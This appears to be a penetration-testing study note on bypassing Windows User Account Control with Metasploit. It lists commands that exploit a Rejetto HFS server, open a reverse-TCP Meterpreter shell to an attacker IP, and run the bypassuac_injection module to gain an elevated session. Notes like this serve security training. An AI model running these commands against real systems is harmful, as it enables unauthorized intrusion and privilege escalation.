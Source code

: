 ## UAC
* USer Account Control --> Windows security feature introduced in Vista
* USed to prevent unauthorized changes from being made to the OS.
* It ensures that changes to the OS requires approval from the administrator.
* **How to exploit**
  * Utilize the "Windows Escalate UAC Protection Bypass (In-memory injection) module.
  * This module utilizes the trusted publisher certificate through process injection.
  * RESULT: It will spawn a second shell that has the UAC flag turned off.
 
* PRACTICAL
* Repeat steps till db_nmap
* `use exploit/windows/http/rejetto_hfs_exec`
* To bypass UAC, we have to set payload to the x64 (64-bit) architecture
* `set payload windows/x64/meterpreter/reverse_tcp`
* `set lhost [attacker's IP]`
* `run`
* ***
* NOTE: "admin" has lower privileges than that of "administrator"
* ***
* How to list the users added in Administrator's group
* Inside the meterpreter session --> `shell`
* `net users`
* If your meterpreter user is part of this group, then only it's possible to turn UAC off in the followinf steps.
* ***
* How to bypass UAC
* `use exploit/windows/local/bypassuac_injection`
* `set session [ID]`
* `set lport [some other port than what is used by meterpreter session already running]`
* `set target Windows\ x64`
* `set payload windows/x64/meterpreter/reverese_tcp`
* `run`
* Now as we have bypassed UAC, we can run the commands that require Administrator privileges.
